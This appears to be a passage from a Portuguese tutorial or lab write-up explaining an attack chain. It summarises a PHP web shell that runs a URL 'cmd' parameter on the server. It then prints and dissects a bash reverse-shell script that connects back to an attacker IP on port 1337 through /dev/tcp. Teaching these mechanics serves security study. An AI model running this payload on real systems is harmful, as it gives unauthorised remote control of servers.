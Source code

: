 *   **Em resumo:** `shell.php` é um web shell extremamente simples. Ele espera um parâmetro `cmd` na URL, pega o valor desse parâmetro e o executa como um comando no servidor alvo, sob as permissões do usuário que o servidor web está rodando (neste caso, `www-data`). Ele é o nosso "mensageiro" que leva nossas ordens para o servidor.

### 2. `shell.sh` - O Script de Ligação Reversa (Payload)

*   **Conteúdo:**
    ```bash
    #!/bin/bash
    bash -i >& /dev/tcp/{SEU_IP_ATACANTE}/1337 0>&1
    ```

*   **O que ele faz, passo a passo:**
    1.  `#!/bin/bash`: Esta é a "shebang". Ela diz ao sistema operacional que este arquivo é um script e deve ser executado usando o interpretador `/bin/bash`. Quando o `shell.php` executa `... | bash`, o conteúdo deste script é alimentado para uma nova instância do `bash` no servidor alvo.
    2.  `bash -i`:
        *   `bash`: Inicia uma nova instância do shell Bash.
        *   `-i`: Esta é a flag crucial. Ela diz ao Bash para rodar em **modo interativo**. Um shell interativo se comporta de maneira diferente de um shell não interativo (que apenas executa um script e sai). Ele mantém o estado, tem prompts, lida com controle de jobs, etc. Isso é o que nos permite ter um "prompt" real do servidor alvo.
    3.  `/dev/tcp/{SEU_IP_ATACANTE}/1337`: Esta é uma funcionalidade especial do Bash (e alguns outros shells como zsh). **Não é um arquivo real no sistema de arquivos.**
        *   Quando o Bash encontra um caminho que se parece com `/dev/tcp/HOST/PORT` em um contexto de redirecionamento, ele tenta abrir uma conexão TCP para o `HOST` especificado na `PORTA` especificada.
        *   No nosso caso, `{SEU_IP_ATACANTE}` é o IP da sua máquina onde o `nc` está escutando, e `1337` é a porta que o `nc` está escutando.
        *   Então, esta parte do comando faz o Bash no servidor alvo tentar se conectar à sua máquina na porta 1337.
    4.  `>& /dev/tcp/{SEU_IP_ATACANTE}/1337`:
        *   `>`: É um operador de redirecionamento de saída.
        *   `&`: Quando usado com `>`, como em `>&`, significa redirecionar **tanto o Standard Output (stdout, descritor de arquivo 1) quanto o Standard Error (stderr, descritor de arquivo 2)** do comando `bash -i` para o destino especificado.
        *   Então, toda a saída normal e todos os erros do shell interativo `bash -i` serão enviados através da conexão TCP para a sua máquina.
    5.  `0>&1`:
        *   `0<`: É um operador de redirecionamento de entrada (stdin, descritor de arquivo 0).
        *   `&1`: Significa "para onde o descritor de arquivo 1 (stdout) está atualmente apontando".
        *   Como o stdout (`&1`) já foi redirecionado para a conexão TCP (`/dev/tcp/...`), esta parte efetivamente diz: "pegue a entrada para o shell interativo `bash -i` da mesma conexão TCP".

*   **Em resumo:** `shell.sh`, quando executado no servidor alvo, faz o seguinte:
    1.  Inicia um novo shell Bash interativo.
    2.  Estabelece uma conexão TCP de saída do servidor alvo para a sua máquina atacante (onde o `nc` está escutando).
    3.  Conecta a saída padrão (stdout) e o erro padrão (stderr) desse shell Bash interativo à conexão TCP. Qualquer coisa que o shell no servidor produzir (resultados de comandos, erros) será enviada para o seu `nc`.
    4.  Conecta a entrada padrão (stdin) desse shell Bash interativo à mesma conexão TCP. Qualquer coisa que você digitar no seu `nc` será enviada para o shell no servidor como entrada de comando.
